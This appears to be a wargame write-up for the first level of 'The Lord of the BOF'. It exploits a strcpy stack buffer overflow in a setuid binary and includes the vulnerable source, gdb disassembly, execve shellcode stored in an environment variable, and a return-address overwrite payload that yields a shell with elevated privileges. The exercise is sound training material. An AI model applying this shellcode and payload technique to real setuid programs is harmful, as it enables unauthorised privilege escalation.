 # Level1

## This level's goal
- LEVEL1 (gate -> gremlin) : Simple BOF

***

```
[gate@localhost gate]$ bash2

[gate@localhost gate]$ ls -l
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
-rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c

[gate@localhost gate]$ cat gremlin.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}

[gate@localhost gate]$ ./gremlin
argv error

[gate@localhost gate]$ ./gremlin AAAA
AAAA
```

In the code, the gremlin seems that it prints buffer(256bytes) which is your input.

```
(gdb) run
Starting program: /home/gate/gremlin
/bin/bash: /home/gate/gremlin: Operation not permitted
```

You cannot debug germlin cuz of the privilege, so you need to copy that for debug.

```
[gate@localhost gate]$ cp gremlin gremlin2
[gate@localhost gate]$ gdb -q gremlin2
(gdb) set disass intel
(gdb) disass main
0x8048433 <main+3>:     sub    %esp,0x100
0x804846e <main+62>:    lea    %eax,[%ebp-256]
```

The buffer is 256 bytes without dummy, so the memory seems 256bytes + SFP(4byts) + RET(4bytes).

The point is that you need to overflow buf and SFP (260bytes) and then exploit RET with the shell code.

The shell code is   
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80`

I will make the env variable of EGG(shell code) and then made and run getegg.c (to get EGG's address).

```
[gate@localhost gate]$ export EGG=`python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
[gate@localhost gate]$ echo 'int main() { printf("EGG -> 0x%x\n", getenv("EGG")); } ' > getegg.c
[gate@localhost gate]$ gcc getegg.c -o getegg
[gate@localhost gate]$ ./getegg
EGG -> 0xbffffeb1
```

Then the payload will be the dummy strings + the shell code's address.

```
[gate@localhost gate]$ ./gremlin `python -c 'print "A"*260+"\xb1\xfe\xff\xbf"'`
bash$ id
uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)
bash$ my-pass
euid = 501
hello bof world
```




